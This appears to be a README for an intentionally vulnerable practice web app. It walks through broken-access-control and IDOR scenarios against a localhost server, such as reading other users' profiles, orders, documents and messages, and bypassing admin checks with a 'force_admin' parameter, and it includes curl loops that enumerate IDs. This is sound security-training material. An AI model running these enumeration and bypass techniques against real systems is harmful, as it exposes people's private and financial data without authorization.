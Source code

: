 1. Login as `bob.wilson`
2. Try accessing: `http://localhost:8083/profiles/1/view` (admin's profile)
3. Try accessing: `http://localhost:8083/profiles/2/view` (manager's profile)
4. **Expected:** Should see salary, emergency contacts, and other sensitive data

### Scenario 2: Financial Data Exposure
**Goal:** Access financial information you shouldn't see

1. Login as any user
2. Try accessing: `http://localhost:8083/orders/user/1` (admin's orders)
3. Try accessing: `http://localhost:8083/api/users/2/orders` (manager's orders)
4. **Expected:** Should see order amounts, purchase history, financial data

### Scenario 3: Document Confidentiality Bypass
**Goal:** Access confidential documents from other departments

1. Login as Marketing employee (`alice.brown`)
2. Try accessing: `http://localhost:8083/documents/user/1` (IT department docs)
3. Try accessing: `http://localhost:8083/reports/author/1` (admin reports)
4. **Expected:** Should see confidential IT documents and admin reports

### Scenario 4: Message Privacy Violation
**Goal:** Read private communications between users

1. Login as any user
2. Try accessing: `http://localhost:8083/messages/user/1` (admin messages)
3. Try accessing: `http://localhost:8083/api/users/2/messages` (manager messages)
4. **Expected:** Should see private communications between other users

### Scenario 5: Admin Privilege Bypass
**Goal:** Perform admin actions without admin privileges

1. Login as regular employee
2. Try accessing: `http://localhost:8083/admin/users/2/reset-password`
3. Try accessing: `http://localhost:8083/admin.php?force_admin=1`
4. **Expected:** Should be able to perform admin actions

## 🛠 Testing Tools

### Manual Testing
- **Browser:** Use browser dev tools to modify URLs
- **URL Manipulation:** Change path segments to test different IDs
- **Parameter Testing:** Test `?force_admin=1` and similar bypasses

### Automated Testing
```bash
# Test document access for multiple IDs
for i in {1..20}; do
  curl -s -o /dev/null -w "%{http_code}" http://localhost:8083/documents/$i/view
  echo " - Document $i"
done

# Test user profile enumeration
for i in {1..10}; do
  curl -s http://localhost:8083/api/users/$i | jq '.first_name, .last_name, .email'
done

# Test order access across users
for i in {1..5}; do
  echo "User $i orders:"
  curl -s http://localhost:8083/orders/user/$i | grep -o 'Order #[0-9]*'
done
```
